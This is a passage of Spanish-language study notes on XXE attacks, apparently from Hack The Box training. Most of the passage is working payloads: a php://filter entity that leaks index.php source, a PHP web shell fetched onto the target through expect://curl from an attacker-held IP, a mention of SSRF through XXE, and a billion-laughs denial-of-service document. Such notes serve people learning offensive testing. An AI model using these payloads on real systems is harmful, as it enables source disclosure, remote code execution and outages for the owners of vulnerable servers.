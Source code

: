 -también podemos leer el codigo fuente(index.php) pero como el index usa carácteres raros que usa también xml pues nos dará error por ende ese archivo tenemos que referenciarlo en base 64 para que salga, si se usa php hay un filtro que lo hace: 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```


### RCE
Si la web usa php y tiene el filtro expect entonces se pueden tirar comandos básicos `expect://id` pero la forma más eficiente es esta : 

1. ```
```
bonack@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
bonack@htb[/htb]$ sudo python3 -m http.server 80
```

2.  
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

### Other XXE Attacks

-XXE que haga curl al server que queramos haciendo un SSRF
-XXE que haga un DoS por referenciarse muchas veces : 

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
